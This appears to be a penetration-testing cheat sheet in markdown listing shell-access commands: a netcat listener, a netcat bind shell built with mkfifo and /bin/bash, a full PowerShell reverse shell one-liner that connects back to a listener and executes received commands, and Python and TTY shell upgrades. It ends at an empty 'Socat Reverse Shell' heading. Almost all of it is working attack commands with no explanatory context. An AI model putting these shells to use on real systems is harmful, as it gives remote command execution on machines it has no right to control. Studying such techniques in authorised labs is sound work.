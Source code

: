 

####  Discover environmental variables of a system to identify the shell language
```shell
env
```
### Start netcat listener on a specified port

```bash
sudo nc -lvnp <port #>
```

### Connect to a netcat listener

```bash
nc -nv <ip_address> <port>
```

### Bind shell using netcat

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

### PowerShell Reverse Shell

```powershell
### PowerShell one-liner used to connect back to a listener
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Reverse Shell Upgrades

### Python Shell Upgrade

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Full TTY Upgrade

```bash
stty raw -echo; fg
reset
xterm
```

### Socat Reverse Shell
